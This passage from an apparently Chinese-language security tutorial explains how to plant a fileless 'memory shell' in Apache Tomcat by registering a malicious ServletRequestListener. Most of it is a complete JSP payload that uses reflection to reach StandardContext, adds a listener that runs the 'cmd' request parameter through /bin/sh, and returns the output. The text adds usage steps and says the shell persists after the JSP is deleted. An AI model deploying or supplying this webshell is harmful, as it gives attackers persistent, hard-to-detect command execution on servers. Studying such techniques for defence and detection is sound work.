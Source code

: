 Listener 是最先被加载的，所以可以利用动态注册恶意的 Listener 植入内存马。

-   Listener 分类
    -   ServletContext 监听，服务器启动和终止时触发
        -   ServletContextListener：用于监听整个 Servlet 上下文（创建、销毁）
        -   ServletContextAttributeListener：对 Servlet 上下文属性进行监听（增删改属性）
    -   Session 监听，Session 建立摧毁时触发
        -   javax.servlet.http.HttpSessionListener：对 Session 整体状态的监听
        -   javax.servlet.http.HttpSessionAttributeListener：对 Session 属性的监听
    -   Request 监听，每次访问服务时触发
        -   ServletRequestListener：对 Request 请求进行监听（创建、销毁）
        -   ServletRequestAttributeListener：对 Request 属性进行监听（增删改属性）

如果能动态添加 Listener 那 Request 监听最适合植入内存马。

`ServletRequestListener` 提供两个方法：`requestInitialized` 和 `requestDestroyed`，两个方法均接收 `ServletRequestEvent` 作为参数，`ServletRequestEvent` 中又储存了 `ServletContext` 对象和 `ServletRequest` 对象，因此在访问请求过程中可以在 request 创建和销毁时实现自己的恶意代码，完成内存马的实现。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109221719716.png-water_print](assets/1699410171-7f3dc7118370fa2ef9bae8d050aa7648.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109221719716.png-water_print")

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>``` | ```java<br><%@ page import="org.apache.catalina.core.StandardContext" %><br><%@ page import="org.apache.catalina.core.ApplicationContext" %><br><%@ page import="java.lang.reflect.Field" %><br><%@ page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><br><%@ page import="org.apache.jasper.tagplugins.jstl.core.Out" %><br><%@ page import="java.io.IOException" %><br><%@ page import="javax.servlet.annotation.WebServlet" %><br><%@ page import="java.io.InputStreamReader" %><br><%@ page import="java.io.BufferedReader" %><br><%<br>     Object obj = request.getServletContext();<br>     Field field = obj.getClass().getDeclaredField("context");<br>     field.setAccessible(true);<br>     ApplicationContext applicationContext = (ApplicationContext) field.get(obj);<br>     field = applicationContext.getClass().getDeclaredField("context");<br>     field.setAccessible(true);<br>     StandardContext standardContext = (StandardContext) field.get(applicationContext);<br>     ListenH listenH = new ListenH(request, response);<br>    standardContext.addApplicationEventListener(listenH);<br>    out.print("test");<br>%><br><%!<br>    public class ListenH implements ServletRequestListener {<br>        public ServletResponse response;<br>        public ServletRequest request;<br><br>        ListenH(ServletRequest request, ServletResponse response) {<br>            this.request = request;<br>            this.response = response;<br>        }<br><br>        public void requestDestroyed(ServletRequestEvent servletRequestEvent) {<br>        }<br><br>        public void requestInitialized(ServletRequestEvent servletRequestEvent) {<br>            String cmder = request.getParameter("cmd");<br>            String[] cmd = new String[]{"/bin/sh", "-c", cmder};<br>            try {<br>                Process ps = Runtime.getRuntime().exec(cmd);<br>                BufferedReader br = new BufferedReader(new InputStreamReader(ps.getInputStream()));<br>                StringBuffer sb = new StringBuffer();<br>                String line;<br>                while ((line = br.readLine()) != null) {<br>                    //执行结果加上回车<br>                    sb.append(line).append("<br>");<br>                }<br>                String result = sb.toString();<br>                this.response.getWriter().write(result);<br>            }catch (Exception e){<br>                System.out.println("error ");<br>            }<br><br>        }<br>    }<br>%><br>``` |

通过 jsp 尝试动态添加 Listener，这里需要注意，因为我们是直接通过 add 来添加，所以每次访问该 jsp 页面的时候都会重复添加 Listener，导致恶意 payload 重复执行。添加成功后访问任意存在的页面 `?cmd=` 要执行的命令即可，即使 jsp 文件被删除依然可以使用。

#### [](#323-filter-%E5%86%85%E5%AD%98%E9%A9%AC)3.2.3 Filter 内存马

Filter 被称之为过滤器，是 Java 中最常见也最实用的技术之一，通常被用来处理静态 web 资源、访问权限控制、记录日志等附加功能等等。一次请求进入到服务器后，将先由 Filter 对用户请求进行预处理，再交给 Servlet。

未完待续。。
